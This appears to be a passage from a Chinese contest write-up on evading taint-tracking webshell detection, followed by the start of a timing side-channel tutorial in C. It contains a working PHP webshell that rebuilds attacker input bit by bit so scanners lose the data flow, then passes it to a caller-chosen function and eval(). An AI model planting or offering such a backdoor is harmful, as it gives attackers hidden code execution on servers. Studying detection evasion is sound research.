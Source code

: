 
![image-20220210162720966](https://raw.githubusercontent.com/pw0rld/blog_image/master/image-20220210162720966.png)

下面是作者给出的antiHybrid的代码思路
![image-20220210162731792](https://raw.githubusercontent.com/pw0rld/blog_image/master/image-20220210162731792.png)
其中6-15行是核心，12行是if条件控制，隐蔽的把数据传到了ch变量。因此我们把这个思想搬运到这次的比赛中，譬如以下。

```php
<?php

$temp = $_GET['a'];
$cha = $_GET['chr'];
$bbb = "";
for($i=0;$i < strlen($temp);$i++)
{
  $ch = 0;
  $temps = 0;
  $temps2 = 0;
  $kkkk = "1";
  for($j=0;$j < 8;$j++)
  {
    $temps = ord($temp[$i]);//source
    $temps2 = $temps & (1 << intval($j));
    if($temps2 != 0)//source
    {
      $ch |= 1 << $j;//source
    }
  }
  $bbb .= $cha($ch);//source
}
eval($bbb);
?>
```
### 侧信道
侧信道攻击——是一种利用计算机不经意间释放出的信息信号（如功耗,电磁辐射，电脑硬件运行声）来进行破译的攻击模式。我更愿意将它视为一种思想，如何利用借助环境信息来推导出你想要的信息。下面我将使用一个简单的C语言程序说明一下时间侧信道如何发生。
#### 时间侧信道
这个例子是当时学习SGX侧信道的例子，对侧信道感兴趣的小伙伴可以自己把余下几个侧信道给做了。其中包括如何利用Page fault、flush-and-reload等等方法来侧信道攻击获取信息。
[https://github.com/jovanbulck/sgx-tutorial-space18](https://github.com/jovanbulck/sgx-tutorial-space18)
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <cacheutils.h>
#include "secret.h"

#define NUM_SAMPLES     100000
#define DELAY           1

uint64_t diff[NUM_SAMPLES];
int user_len, secret_len;

char *read_from_user(void) //提供读写给用户
{
    char *buffer = NULL;
    int len; size_t size;

    printf("Enter super secret password ('q' to exit): ");
    if ((len=getline(&buffer, &size, stdin)) != -1)
    {
        buffer[len-1]='\0';
```